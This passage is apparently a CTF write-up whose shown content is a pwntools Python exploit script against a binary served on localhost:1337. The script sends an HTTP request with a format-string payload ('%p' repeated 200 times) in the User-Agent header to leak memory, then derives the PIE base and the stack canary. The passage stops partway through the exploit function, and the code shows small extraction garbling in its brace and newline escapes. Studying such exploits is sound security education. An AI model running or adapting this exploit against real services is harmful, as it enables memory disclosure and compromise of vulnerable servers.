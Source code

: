 完整的EXP

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import os, sys
import requests
import re

DEBUG = 4
context.arch = 'amd64'
context.log_level = 'debug'
elf = ELF('./server',checksec=False)

# synonyms for faster typing
tube.s = tube.send
tube.sl = tube.sendline
tube.sa = tube.sendafter
tube.sla = tube.sendlineafter
tube.r = tube.recv
tube.ru = tube.recvuntil
tube.rl = tube.recvline
tube.ra = tube.recvall
tube.rr = tube.recvregex
tube.irt = tube.interactive

if DEBUG == 1:
    libc = ELF('/root/workspace/expmake/libc_x64',checksec=False)
    s = process('./toy')
elif DEBUG == 2:
    libc = ELF('/root/workspace/expmake/libc_x64',checksec=False)
    s = process('./toy', env=`{`'LD_PRELOAD':'/root/workspace/expmake/libc_x64'`}`)
elif DEBUG == 3:
    libc = ELF('/root/workspace/expmake/libc_x64',checksec=False)
    ip = 'localhost' 
    port = 1337
    s = remote(ip,port)
elif DEBUG == 4:
    libc = ELF('/root/workspace/expmake/libc_x64',checksec=False)

def _request(gift,fmt,ctl):
    req = "GET /?toy=`{``}` HTTP/1.1rn".format(gift)
    req += "User-Agent: `{``}`rn".format(fmt)

    s=remote("localhost",1337,level="error")
    s.s(req)
    try:
        if not ctl:
            return re.findall("&lt;br&gt;(.*?)&lt;/small&gt;", s.recvall())[0][10:]
        else:
            return s.irt()
    except EOFError:
        return None
    finally:
        s.close()

def pwn():
    leak = _request(b64e('wooy0ung'),'%p '*200,False).split(' ')
    #print leak

    pie_base = int(leak[0], 16) - 0x2006    # 0x0000555555556006-0x0000555555554000 = 0x2006
    stack_cookie = int(leak[6], 16)
```
